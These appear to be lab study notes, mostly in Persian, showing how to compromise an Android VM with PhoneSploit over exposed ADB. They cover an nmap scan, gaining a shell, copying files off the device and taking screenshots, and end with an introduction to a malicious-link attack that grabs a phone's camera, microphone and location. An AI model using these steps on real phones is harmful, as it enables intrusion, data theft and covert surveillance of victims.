 	2. `Android VM => Settings => Network & Internet => Wifi => Click connected Wifi => Wifi Gear(Settings) => Advanced` Copy IP Address of Android VM
		1. ![[Pasted image 20240726163237.png]]
1. *Pre-Requires on Kali-Linux*
	1. `sudo apt install adb`
	2. `git clone https://github.com/aerosol-can/PhoneSploit`
	3. `cd PhoneSploit`
	4. `python3 -m pip install colorama`
2. *Enumerating Android Phone*
	1. در مرحله اول باید بر روی تارگت Enumeration را انجام دهیم تا اطلاعاتی را برای نفوذ پیدا کنیم:
	2. `sudo nmap -sS -p- -Pn 192.168.20.132`
		1. ![[Pasted image 20240726163534.png]]
	3. در نتیجه اسکن پورت `tcp/5555` مربوط به `freeciv` باز Open است.
3. *Launching PhoneSploit  and Accessing to Android Target*
	1. حال میتوانیم فریم ورک را اجرا کنیم و حمله خود را شروع کنیم. کار با این فریم ورک بسیار ساده میباشد و فقط کافیست آیپی ماشین اندرویدی تارگت را برای نفوذ در ابزار وارد کنیم تا بهره برداری و نفوذ بصورت خودکار آغاز شود.
		1. ![[Pasted image 20240726165127.png]]
4. *Execute PhoneSploit Actions on Android Target*
	1. حال میتوانیم هر اکشن که در بالای صفحه مشاهده میکنیم را بر روی ماشین اندرویدی تارگت اعمال کنیم. لیست انواع اکشن ها را در تصویر زیر میتوانید مشاهده کنید:
		1. ![[Pasted image 20240726165938.png]]
	2. با فشردن `p` به صفحه دوم اکشن ها میرویم:
		1. ![[Pasted image 20240728000553.png]]
	3. *با وارد کردن `4` میتوانیم Shell Accessing را از گوشی اندروی تارگت دریافت کنیم >>*
		1. پس از دریافت Shell از تارگت اندرویدی میتوانیم تمام دستورات لینوکسی را نیز بر روی ماشین اندرویدی تارگت اجرا کنیم.
		2. `ls`
			1. ![[Pasted image 20240726165426.png]]
		3. `pwd`
		4. با دریافت دسترسی Shell میتوانیم فایل هایی که نیاز داریم را از گوشی اندروی تارگت دریافت کنیم. کافیست به دایرکتوری مورد نظر برویم و فایل مورد نظر را از ماشین Android بر روی ماشین Kali کپی کنیم.
		5. `cd Android/ ; ls`
			1. ![[Pasted image 20240726165640.png]]
	4. همچنین با وارد کردن `7` در Main Menu Phonesploit میتوانیم از صفحه ماشین تارگت Screenshot تهییه کنیم.
		1. ![[Pasted image 20240726170025.png]]
*****
```sh
"-------Installing------"
sudo apt install adb python3 
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama #Or 
python3 -m pip install colorama
"-------Usage------"
sudo nmap -sS -p- -Pn 192.168.20.132 #1. Enumerating Target
cd PhoneSploit
python3 phonesploit.py
"-------Framework Started------"
[ + ] Enter a phone ip address.(type 99 to exit)
phonesploit(connect_phone) > 192.168.20.130
phonesploit(main_menu) >
```
### Hack Android & IOS Phones Using **Just 1 Click** -  E76
#### Definition & Instruction
##### Basics & Concepts
در این حمله میخواهیم ابتدا یک URL مخرب ایجاد کنیم تا هنگامیکه کلاینت بر روی این URL کلیک کرد، کنترل Microphone, Camera & Location موبایل تارگت در دست Attacker قرار میگیرد. در واقع قربانی تنها با کلیک بر روی URL ساخته شده دسترسی گوشی خود را به Attacker میدهد.
	![[Pasted image 20240726170545.png]]